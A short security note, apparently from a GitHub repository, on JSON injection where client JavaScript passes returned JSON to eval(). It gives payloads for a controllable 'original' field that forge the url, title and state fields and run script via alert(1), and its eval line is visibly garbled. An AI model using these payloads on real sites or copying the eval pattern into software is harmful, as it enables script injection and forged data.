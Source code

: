 #JSON Injection
-----------------------------------------------------------------

## How to inject for a valid json returned?

client js code as :
```javascript
  data = ... ;
  var jsonpbj = eval("("++")");
```
"data" maybe :
```javascript
  {'original':'008.jpg','url':'http://hikerell.cn/getFile/20141103141947:42d3db16e960a621f5e85d456f2054ae.jpg','title':'','state':'SUCCESS'}
```
the "original" could be controled, then we can submit "original" using the value:
```
  fake.jpg','url':'fakeurl','title':'faketitle','state':'SUCCESS'})//{'name':'008.jpg"
```  
  or:
```
  fake.jpg','url':'fakeurl','title':'faketitle','state':'SUCCESS'})<!--{'name':'008.jpg"
```
  or. execute js code directly:
```
  fake.jpg','url':'fakeurl','title':'faketitle','state':'SUCCESS'})(alert(1))<!--{'name':'008.jpg"
```
